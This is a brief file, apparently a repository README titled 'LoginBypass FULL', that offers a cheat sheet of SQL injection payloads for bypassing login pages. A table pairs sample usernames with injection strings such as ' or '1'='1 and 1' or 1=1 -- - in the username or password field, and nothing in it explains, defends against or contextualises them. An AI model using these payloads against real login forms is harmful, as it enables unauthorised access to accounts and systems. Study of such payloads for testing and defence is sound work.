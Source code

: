 # LoginBypass FULL
SQL Injection Login page 

Cheat sheet

| User name  | 	Password |
| ------------- | ------------- |
| serhat	  | ' or '1'='1	  |
| serhat  | ' or 1='1	  |
| serhat  | 1' or 1=1 -- -	  |
| serhat  | ' or '1'='1	  |
| serhat  | ') or 1=('1		  |
| serhat  | ') or 1=(1)-- -	  |
| ') or 1=('1  | hadilen	  |
| serhat  | ") or 1=("1		  |
| serhat  | ") or 1=(1)-- -	  |
| serhat  | ") or 1=("1	  |
| ' or '1'='1'#  | sonuncu	  |

